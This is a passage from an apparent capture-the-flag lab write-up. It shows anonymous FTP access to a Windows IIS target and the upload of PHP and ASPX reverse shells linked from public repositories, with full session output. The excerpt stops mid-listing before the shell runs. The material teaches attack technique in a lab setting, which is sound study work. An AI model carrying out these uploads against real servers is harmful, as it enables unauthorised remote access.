 Doing some research ([Source](https://www.atlantic.net/what-is-an-iis-server/)), we see:
"Because IIS uses C# and .NET web application frameworks like ASP.NET MVC and Entity Framework; additionally, it integrates with Visual Studio, all of which make it a popular choice for enterprises. Other key advantages are native .NET, ASPX and PHP support for modules and scripts, which allows web developers to create eye-catching, seamlessly designed content to their web creations."

Interesting, scripts for `.NET`, `ASPX` and `PHP` is supported. 

## 5. Reverse Shell Execution
We can choose between `.NET`, `ASPX` and `PHP` scripts, but let me first attempt to upload a PHP reverse shell. 
Upload to FTP [source](https://www.howtoforge.com/tutorial/how-to-use-ftp-on-the-linux-shell/).

PHP reverse shell [source](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
```
hippoeug@kali:~$ ftp 10.129.135.184
Connected to 10.129.135.184.
220 Microsoft FTP Service
Name (10.129.135.184:hippoeug): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: [Enter]
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
5676 bytes sent in 0.00 secs (27.2013 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
04-25-21  05:03PM                 5676 shell.php
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```
Navigating to `http://10.129.135.184/shell.php`, we couldn't run the PHP file.

ADD SCREENSHOT HERE!!!!

Let's try ASPX. We find a ASPX reverse shell online, [source](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) and used it!
```
hippoeug@kali:~$ ftp 10.129.135.184
Connected to 10.129.135.184.
220 Microsoft FTP Service
Name (10.129.135.184:hippoeug): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: [Enter]
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
15855 bytes sent in 0.00 secs (55.5901 MB/s)
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
```